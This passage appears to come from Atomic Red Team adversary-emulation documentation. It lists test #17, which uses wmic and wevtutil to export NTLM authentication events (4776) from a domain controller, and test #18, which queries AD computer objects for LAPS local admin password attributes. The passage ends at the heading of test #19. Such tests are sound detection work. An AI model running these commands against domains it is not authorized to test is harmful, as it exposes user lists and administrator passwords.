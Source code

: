 ## Atomic Test #17 - Wevtutil - Discover NTLM Users Remote

This test discovers users who have authenticated against a Domain Controller via NTLM.
This is done remotely via wmic and captures the event code 4776 from the domain controller and stores the ouput in C:\temp. [Reference](https://www.reliaquest.com/blog/socgholish-fakeupdates/)

**Supported Platforms:** Windows

**auto_generated_guid:** b8a563d4-a836-4993-a74e-0a19b8481bfe

#### Attack Commands: Run with `powershell`!

```powershell
$target = $env:LOGONSERVER
$target = $target.Trim("\\")
$IpAddress = [System.Net.Dns]::GetHostAddresses($target) | select IPAddressToString -ExpandProperty IPAddressToString
wmic.exe /node:$IpAddress process call create 'wevtutil epl Security C:\\ntlmusers.evtx /q:\"Event[System[(EventID=4776)]]"'
```

#### Cleanup Commands:

```powershell
Remove-Item -Path \\$IpAddress\c$\ntlmusers.evtx
```

<br/>
<br/>

## Atomic Test #18 - Suspicious LAPS Attributes Query with Get-ADComputer all properties

This test executes LDAP query using powershell command Get-ADComputer and lists all the properties including Microsoft LAPS attributes ms-mcs-AdmPwd and ms-mcs-AdmPwdExpirationTime

**Supported Platforms:** Windows

**auto_generated_guid:** 394012d9-2164-4d4f-b9e5-acf30ba933fe

#### Inputs:

| Name     | Description      | Type   | Default Value     |
| -------- | ---------------- | ------ | ----------------- |
| hostname | Name of the host | string | $env:computername |

#### Attack Commands: Run with `powershell`!

```powershell
Get-ADComputer #{hostname} -Properties *
```

<br/>
<br/>

## Atomic Test #19 - Suspicious LAPS Attributes Query with Get-ADComputer ms-Mcs-AdmPwd property
